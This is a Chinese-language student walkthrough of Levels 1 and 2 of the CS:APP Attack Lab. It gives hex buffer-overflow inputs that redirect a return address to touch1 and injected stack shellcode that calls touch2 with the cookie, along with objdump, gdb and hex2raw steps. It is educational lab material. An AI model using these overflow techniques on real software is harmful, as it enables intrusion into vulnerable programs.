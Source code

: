 

[图文并茂-超详解 CS:APP: Lab3-Attack（附带栈帧分析) - 周小伦 - 博客园 (cnblogs.com)](https://www.cnblogs.com/JayL-zxl/p/14361158.html)

[【读厚 CSAPP】III Attack Lab | 小土刀 2.0 (wdxtub.com)](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)

## Level 1

### 题目

![image-20210528191423138](assert/image-20210528191423138.png)

![image-20210528191516287](assert/image-20210528191516287.png)

![image-20210528191823155](assert/image-20210528191823155.png)



这一关中我们暂时还不需要注入新的代码，只需要让程序重定向调用某个方法就好。`ctarget` 的正常流程是

```c
void test() {
    int val;
    val = getbuf();
    printf("NO explit. Getbuf returned 0x%x\n", val);
}
```

我们要做的是调用程序中的另一个函数

```c
void touch1() {
    vlevel = 1;
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```



也就是在 `getbuf()` 函数返回的时候，执行 `touch1()` 而不是返回 `test()`。下面是一些建议：

- 本关所需要的所有信息都可以在 `ctarget` 的汇编代码中找到
- 具体要做的是把 `touch1` 的开始地址放到 `ret` 指令的返回地址中
- 注意字节的顺序
- 可以用 gdb 在 `getbuf` 的最后几条指令设置断点，来看程序有没有完成所需的功能
- 具体 `buf` 在栈帧中的位置是由 `BUFFER_SIZE` 决定的，需要仔细察看来进行判断





### 解题

首先是反编译成汇编代码：`objdump -d ctarget > ctarget.txt`



`test`函数如下：

<img src="assert/image-20210528192729684.png" alt="image-20210528192729684" style="zoom:50%;" />

其实test并不重要，我们需要看的是getbuf.



`getbuf`函数如下：

<img src="assert/image-20210528192911495.png" alt="image-20210528192911495" style="zoom: 50%;" />



可以看到这里把 `%rsp` 减少了 `0x28`(40) 位，最后再加上一个`0x28`，也就是说，我们的缓冲区有 `40` 个字节，这个缓冲区上面的就是返回地址，我们要做的就是利用缓冲区溢出把这个返回地址改掉。





ok，其实我们只需要在第41~48字节的这个返回地址中插入touch1函数的地址即可，于是我们继续搜素，来看看 `touch1` 在哪里：

![image-20210528193608581](assert/image-20210528193608581.png)



可以看到地址在 `0x4017c0` 这里，于是我们需要输入的字符串就可以是这样：

`p1.txt`

```assembly
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

接着我们把这个字符文件转换成字节码 `./hex2raw < p1.txt > p1r.txt`

最后执行一下 `./ctarget -q < p1r.txt`，就可以看到结果了：

![image-20210528202740682](assert/image-20210528202740682.png)



从第一关我们就学到了如何利用缓冲区来调用另外的过程，接下来我们来看第二关。



## Level 2

### 题目



![image-20210528200144409](assert/image-20210528200144409.png)

![image-20210528200152331](assert/image-20210528200152331.png)

![image-20210528200202823](assert/image-20210528200202823.png)



第二关中需要插入一小段代码，来完成字符串漏洞攻击

本题的任务就是要我们在`getbuf`之后直接`ret`到`touch2`里面而不是继续执行`test`.（注意，此题的`test`和第一题的test是不一样的，这个test的地址我们需要用gdb去弄出来）

`cmu`的官方文档又给了我们一些建议

- `touch2`的参数`val`是利用`rdi`寄存器进行传递的
- 你要利用某种方式让`getbuf`的返回地址为`touch2`的地址
- 你的注入代码的传入参数应该等于`cookie`的值。
- 不要在注入代码内调用`ret`或者`call`
- 请参见附录B中有关如何使用工具生成字节级表示形式的指令序列的讨论。

`ctarget` 中的 `touch2` 函数的 C 语言如下：

```c
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们再来看看`touch2`的反汇编吧：

![image-20210528200757819](assert/image-20210528200757819.png)

其实touch2的逻辑非常简单。就是比较我们传入的参数`val`是否等于`cookie`的值。如果等于就可以通过。所以本题的关键就是在改变返回地址前也设置`rdi`寄存器的值。

因此我们可以很容易的想到我们要插入的汇编代码是什么

```assembly
movq    $0x59b997fa, %rdi	#cookie的值是题目所给(在第一题的结果中)
pushq   0x4017ec	# touch2的首地址入栈,那么ret就去touch2去执行
ret
```

我们把上面的汇编代码写进`l2.s`

执行`gcc -c l2.s`，产生`l2.o`

<img src="assert/image-20210528203126134.png" alt="image-20210528203126134" style="zoom:45%;" />



我们继续看一下`getbuf`的汇编代码：

<img src="assert/image-20210528192911495.png" alt="image-20210528192911495" style="zoom: 50%;" />



那么现在问题来了，我们要如何才能让机器开始执行这几行代码呢？简单，利用第一阶段的方式，跳转到缓冲区所在的位置即可，那么问题又来了，缓冲区的位置在哪里呢？这个就需要实际跑一次程序，用 gdb 查看了。

`gdb ctarget:`

<img src="assert/image-20210528203908411.png" alt="image-20210528203908411" style="zoom:50%;" />

我们发现`rsp`的地址为`0x5561dc78` 是不是有点想法可以开始写了。

我们可以让执行完`getbuf`之后回到`rsp`的这里。然后把我们要执行的三行汇编代码执行。就可以成功执行`touch2`了。这样我们的输入流就如下图。

```c
48 c7 c7 fa 97 b9 59 68 <-读入我们要执行的汇编语句:48 c7 c7 fa 97 b9 59 ff 34 25 ec 17 40 00 c3
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 <-返回地址为rsp:0x5561dc78
```

上面的这些数字写入`touch2.txt`

执行：`./hex2raw < touch2.txt | ./ctarget -q`

<img src="assert/image-20210528210312886.png" alt="image-20210528210312886" style="zoom:45%;" />



我们最后再分析一下，如下图

<img src="assert/image-20210528213630477.png" alt="image-20210528213630477" style="zoom: 40%;" />

> 我们getbuf之后，执行ret指令时，由于rsp指向地址的为这40字节的底部，这里存着我们注入的代码，这段代码去调用我们的touch2，就成功啦！！



## Level 3

感觉其实也没有多大意思，就是对返回地址做各种hack，先做到这吧，以后有兴趣再回来做.